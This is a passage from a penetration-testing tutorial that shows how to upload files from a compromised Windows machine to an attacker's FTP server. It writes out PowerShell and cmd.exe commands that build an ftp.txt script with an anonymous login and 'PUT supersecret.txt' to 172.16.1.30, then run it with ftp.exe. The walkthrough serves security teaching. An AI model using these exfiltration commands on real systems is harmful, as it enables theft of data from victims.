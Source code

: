 ![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-135.png)

## **Uploading Files to Attacker’s FTP Server**

When we started our FTP server, we used the **\-w** flag, which gives any logged in user write permissions. This allows us to use **PUT** to upload files onto the FTP server.

To upload to the FTP server, we use the exact same technique as we did to download from it. The only difference is that we will change ‘GET’ to ‘PUT’ in both our GUI session and our ftp.txt file.

> Since this is pretty straight forward from GUI, we will focus on the changes to ftp.txt for the PowerShell and cmd.exe methods.

## **Uploading Files to Attacker’s FTP Server: PowerShell**

To upload a file to the FTP server from PowerShell, we use the following set of commands to craft our ftp.txt file:

```
echo "open 172.16.1.30" | Out-File .\ftp.txt -encoding ascii
echo "USER anonymous" | Out-File .\ftp.txt -encoding ascii -append
echo "PASS anonymous" | Out-File .\ftp.txt -encoding ascii -append
echo "PUT supersecret.txt" | Out-File .\ftp.txt -encoding ascii -append
echo "bye" | Out-File .\ftp.txt -encoding ascii -append
```

> Note that in the above example we are sending a non-binary file so the ‘binary’ command has been omitted from the ftp.txt file.

Then using the **ftp.exe -v -n -s:ftp.txt** command again, we can feed ftp.txt into ftp.exe and upload our file to our attacker FTP server:

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-157.png)

Then, heading back to our attacker machine we can see that the victim checked in and uploaded the file.

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-158.png)

## **Uploading Files to Attacker’s FTP Server: cmd.exe**

The same changes we made to the PowerShell commands used to craft our ftp.txt file to ‘PUT’ instead of ‘GET”, we will also make to our cmd.exe version:

```
echo open 172.16.1.30 > ftp.txt
echo USER anonymous >> ftp.txt
echo PASS anonymous >> ftp.txt
echo PUT supersecret.txt >> ftp.txt
echo bye >> ftp.txt
```

Now by using the command **ftp.exe -v -n -s:ftp.txt** again like we did with PowerShell, we will upload supersecret.txt to our attacker machine’s FTP server.
